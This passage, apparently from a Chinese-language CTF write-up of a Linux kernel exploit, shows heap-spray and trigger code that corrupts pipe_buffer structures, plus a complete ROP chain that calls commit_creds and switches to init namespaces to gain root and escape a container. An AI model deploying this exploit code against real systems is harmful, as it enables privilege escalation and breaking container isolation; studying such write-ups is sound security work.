 ```c
    }

    // spray rop chain plus evil vtable ptr to overlap with pipe_buffer
    for (int i = 0; i < ROP_SPRAY; i++)
    {
        send_msg(rop_msg_qid[i], overwrite, 0x300 - 0x30, 0);
    }

    deplete_512();
    deplete_4k();
    puts("[*] Attempt at igniting ROP!");

    // trigger
    for (int i = 0; i < PIPES; i++)
    {
        close(pipefd[i][0]);
        close(pipefd[i][1]);
    }

}
```

**读取flag**：为了找到其他容器的flag，作者直接尝试获取 `/proc/pid/root/flag/flag` （暴搜pid）。

**缺点**：需要三次触发漏洞，堆喷不一定稳定。

#### 4-4 改进exploit

**劫持RIP时的上下文**：在调用执行 `pipe_buffer->ops->release()` 时，我们的环境中是 RSI 指向 `pipe_buffer`。所以需要修改一下ROP链。主要参考 CVE-2021-22555 中用到的一个 stack pivot gadget —— `push rsi; jmp qword ptr [rsi + 0x39]`，这样可以在 `pipe_buffer+0x39` 处放置一个 `pop rsp` 来劫持栈。

**完整ROP链**：

```c
void build_krop(char *buf) {
  uint64_t *rop;
  *(uint64_t *)&buf[0x39] = pop_rsp;                           
  *(uint64_t *)&buf[0x00] = add_rsp_0xd0; 

  rop = (uint64_t *)&buf[0xD8];

  *rop++ = pop_rdi;
  *rop++ = 0;
  *rop++ = prepare_kernel_cred;
  *rop++ = mov_rdi_rax_pop_pop;
  *rop++ = 0xdeadbeef;
  *rop++ = 0xdeadbeef;
  *rop++ = commit_creds;
  *rop++ = pop_rdi;
  *rop++ = 1;
  *rop++ = find_task_by_vpid;
  *rop++ = mov_rdi_rax_pop_pop;
  *rop++ = 0xdeadbeef;
  *rop++ = 0xdeadbeef;
  *rop++ = pop_rsi;
  *rop++ = init_nsproxy;
  *rop++ = switch_task_namespaces;
  *rop++ = kpti_trampoline;
  *rop++ = 0xdeadbeef;
  *rop++ = 0xbaadf00d;
  *rop++ = (uint64_t)pwned;
  *rop++ = user_cs;
  *rop++ = user_rflags;
  *rop++ = user_sp & 0xffffffffffffff00;
```